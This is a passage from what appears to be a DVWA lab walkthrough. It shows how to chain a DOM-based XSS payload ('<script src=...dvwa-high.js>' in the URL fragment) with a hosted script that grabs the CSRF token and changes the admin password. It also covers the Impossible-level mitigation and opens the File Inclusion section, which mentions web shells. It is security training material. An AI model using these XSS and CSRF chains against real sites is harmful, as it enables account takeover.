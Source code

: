 Now we have to host this script somewhere. Even though it can be hosted virtually anywhere on the public internet, for the sake of simplicity, we can upload this to our Damn Vulnerable Web Application server. Keep in mind that you can exploit another DVWA vulnerability – **File Upload** and try to upload the script. If you are seeking more challenges I encourage you to try to do so. For this example, I will **upload the script named dvwa-high.js to the** **/var/www/html folder** of the DVWA installation. One of the prerequisites for this is to give the script sufficient permissions: **sudo chmod 755 dvwa-high.js**.

After creating **dvwa-high.js** file, setting **correct IP** in the first line, upload it to your server and validate that the script is accessible by visiting **http://10.0.1.42:8081/dvwa-high.js**. You should see the contents of JS file on the opened page.

As we must exploit another vulnerability, open the DOM Based XSS page (**/vulnerabilities/xss\_d**). And click on the **Select** button. URL will look like this: **http://10.0.1.42:8081/vulnerabilities/xss\_d/?default=English**. What you need to do is to attach the script:

    ...=English#<script src="https://10.0.1.42/dvwa-high.js"></script>

With this URL crafted, hit Enter and refresh the page. If everything went fine, you should get a popup with the CSRF token:

![Token was Received Successfully](https://bughacking.com/wp-content/uploads/2021/04/high-2-1024x461.png)

And after hitting the OK button, request with new password and CSRF token will be sent. You can make sure about it by inspecting sent requests:

![DVWA High CSRF Vulnerability Exploited Successfully](https://bughacking.com/wp-content/uploads/2021/04/high-3.png)

And the last step would be to check if the password was really changed. For this purpose **/vulnerabilities/csrf/test\_credentials.php** page will help. WIth the username **admin** and new password **newpasswd123**.

![Password was Changed Successfully with the CSRF Token](https://bughacking.com/wp-content/uploads/2021/04/high-4.png)

You should get a success message.

**Impossible**

With the Impossible level there comes another security mechanism that should mitigate CSRF. In order to change the password, the user has to enter his old one, and this is an effective mitigation technique that fixes the vulnerability.

### File Inclusion

File inclusion vulnerability point is to make the web application to execute uploaded code. Let's say we've managed to upload a web shell to the target. By itself it does nothing, however, if we've managed to run it, we would get remote access to the host. There are two types of file inclusions:

*   **Local fle inclusion (LFI) –** in case the file was uploaded to the target and can be accessed from a local server.
*   **Remote file inclusion (RFI) –** in this type of file inclusion, file is included from a remote host.

**Low**

As you might see on the page, there are three files – **file1.php, file2.php**, and **file3.php**. All of them reside on a local server.
